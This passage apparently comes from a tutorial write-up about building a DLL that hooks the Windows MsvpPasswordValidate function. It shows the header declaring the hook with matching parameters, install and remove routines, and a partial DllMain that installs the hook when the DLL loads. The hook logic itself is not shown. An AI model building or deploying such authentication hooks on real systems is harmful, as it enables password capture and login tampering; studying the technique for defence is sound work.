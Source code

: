 ```c++
	private:
		HANDLE _handle;
	};
}

//functions used to install and remove the hook
bool InstallHook();
bool RemoveHook();

// define the pMsvpPasswordValidate type to point to MsvpPasswordValidate
typedef BOOLEAN(WINAPI* pMsvpPasswordValidate)(BOOLEAN, NETLOGON_LOGON_INFO_CLASS, PVOID, void*, PULONG, PUSER_SESSION_KEY, PVOID);
extern pMsvpPasswordValidate MsvpPasswordValidate;

// define our hook function with the same parameters as the hooked function
// this allows us to directly access the hooked function parameters
BOOLEAN HookMSVPPValidate
(
	BOOLEAN UasCompatibilityRequired,
	NETLOGON_LOGON_INFO_CLASS LogonLevel,
	PVOID LogonInformation,
	void* Passwords,
	PULONG UserFlags,
	PUSER_SESSION_KEY UserSessionKey,
	PVOID LmSessionKey
);
```

This header includes various Windows headers that define the various native types used by `MsvpPasswordValidate`. You can see I had to slightly modify the `MsvpPasswordValidate` function definition since I could not find the headers defining `PUSER_INTERNAL1_INFORMATION`, hence we treat it like a normal void pointer. I also define two routines, `InstallHook` and `RemoveHook`, that will deal with injecting our hook and cleaning it up afterwards. I also declare a `RAII` namespace which will hold `RAII` classes to make sure handles to libraries and other stuff will be properly closed as soon as they go out of scope (yay C++).
I also define a `pMsvpPasswordValidate` type which we will use in conjunction with `GetProcAddress` to properly resolve and then call `MsvpPasswordValidate`. Since the `MsvpPasswordValidate` pointer needs to be global we also extern it. 

##### DllMain.cpp
The DllMain.cpp file holds the definition and declaration of the `DllMain` function, responsible for all the actions that will be taken when the DLL is loaded or unloaded:

```c++
#include "pch.h"
#include "hppdll.h"

pMsvpPasswordValidate MsvpPasswordValidate = nullptr;

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        return InstallHook();
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        return RemoveHook();
```